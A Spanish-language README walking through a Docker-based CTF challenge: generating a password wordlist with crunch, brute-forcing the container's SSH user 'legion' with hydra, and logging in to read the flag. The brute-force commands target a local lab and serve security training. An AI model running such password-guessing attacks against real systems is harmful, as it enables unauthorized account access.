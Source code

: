 # 🧪 Reto CTF Docker Hub – Usuario 'legion'

Este repositorio documenta paso a paso la resolución del reto CTF basado en un contenedor Docker que expone un servicio SSH con el usuario `legion`, cuya contraseña debe ser descubierta a partir de un acertijo.

---

## 🔹 PASO 1: Descargar la Imagen Docker

```bash
docker pull jaiderospina/retoctf:1.0
```

**Descripción:**
Descarga una imagen pública con Ubuntu y servicio SSH habilitado, preconfigurado con un usuario `legion`.

---

## 🔹 PASO 2: Levantar el Contenedor

```bash
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
```

**Explicación de parámetros:**
- `-d`: modo segundo plano (detached).
- `-p 2222:22`: expone el puerto 22 del contenedor en el 2222 del host.
- `--name`: nombre asignado al contenedor para fácil manejo.

**Objetivo:** Tener un contenedor activo con SSH disponible para conexión desde el host.

---

## 🔹 PASO 3: Generar Diccionario con `crunch`

### Opción A: Letras definidas

```bash
crunch 5 5 sdeg -t E%%%% -o lista.txt
```

### Opción B: Patrón libre con mayúsculas/minúsculas

```bash
crunch 5 5 -t E%%%% -o lista.txt -f /usr/share/crunch/charset.lst mixalpha
```

**Explicación:**
- `5 5`: longitud fija de 5 caracteres.
- `-t E%%%%`: patrón donde la primera letra es "E", las demás varían.
- `-o lista.txt`: salida al archivo.
- `-f ... mixalpha`: usa todas las letras mayúsculas y minúsculas.

**Objetivo:** Crear un diccionario de posibles contraseñas según pistas del acertijo del reto.

---

## 🔹 PASO 4: Ataque de Fuerza Bruta con `hydra`

```bash
hydra -l legion -P lista.txt ssh://localhost:2222
```

**Explicación:**
- `-l legion`: usuario a atacar.
- `-P lista.txt`: diccionario de contraseñas generado.
- `ssh://localhost:2222`: objetivo SSH en el contenedor.

**Resultado esperado:**
Hydra identifica la contraseña correcta e imprime una línea como:

```
[22][ssh] host: localhost   login: legion   password: Esdeo
```

---

## 🔹 PASO FINAL: Acceso al contenedor por SSH

```bash
ssh legion@localhost -p 2222
```

**Objetivo:**
Ingresar como el usuario `legion` al contenedor una vez descubierta la contraseña, para buscar la bandera (flag) del reto:

```bash
ls
cat flag.txt
```

---

## ✅ Conclusión

Este reto CTF pone en práctica habilidades de:
- Manejo de contenedores Docker.
- Generación de diccionarios personalizados con `crunch`.
- Uso de herramientas de fuerza bruta como `hydra`.
- Análisis lógico de acertijos para deducir patrones de contraseñas.

> 💡 Ideal para estudiantes de ciberseguridad, testers o pentesters en formación.
